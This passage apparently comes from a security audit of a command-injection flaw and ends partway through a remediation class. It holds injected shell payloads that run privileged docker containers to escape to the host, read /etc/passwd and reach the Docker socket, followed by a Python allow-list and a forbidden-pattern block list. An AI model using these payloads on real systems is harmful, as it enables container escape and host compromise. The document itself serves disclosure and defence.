 1. **Container Escape via Command Injection:**
```bash
# Payload in command parameter
"ls; docker run --privileged -v /:/host -it ubuntu chroot /host"

# Or escape via environment manipulation
"ls; export DOCKER_HOST=tcp://host:2376; docker run --privileged ubuntu"
```

2. **Host System Access:**
```bash
# Mount host filesystem
"ls; docker run -v /:/mnt ubuntu cat /mnt/etc/passwd"

# Access Docker socket
"ls; docker run -v /var/run/docker.sock:/var/run/docker.sock ubuntu docker ps"
```

**Impact:** Container escape, host system compromise, privilege escalation, data exfiltration

**Remediation:**
```python
import shlex
import re
from typing import List, Dict

class SecureCommandExecutor:
    """Secure command execution with validation and sandboxing"""
    
    ALLOWED_COMMANDS = {
        'ls': {'max_args': 5, 'allowed_flags': ['-l', '-a', '-h']},
        'cat': {'max_args': 3, 'allowed_flags': []},
        'echo': {'max_args': 10, 'allowed_flags': []},
        'pwd': {'max_args': 0, 'allowed_flags': []},
        'whoami': {'max_args': 0, 'allowed_flags': []}
    }
    
    FORBIDDEN_PATTERNS = [
        r'[;&|`$()]',  # Shell metacharacters
        r'docker',     # Docker commands
        r'sudo',       # Privilege escalation
        r'/proc',      # Process information
        r'/sys',       # System information
        r'\.\./',      # Path traversal
    ]
    
    def validate_command(self, command: str) -> bool:
        """Validate command against security policies"""
        if not command or len(command) > 200:
            return False
        
        # Check for forbidden patterns
        for pattern in self.FORBIDDEN_PATTERNS:
            if re.search(pattern, command, re.IGNORECASE):
                return False
        
        # Parse command safely
        try:
            parts = shlex.split(command)
        except ValueError:
            return False
        
        if not parts:
            return False
        
        base_command = parts[0]
```
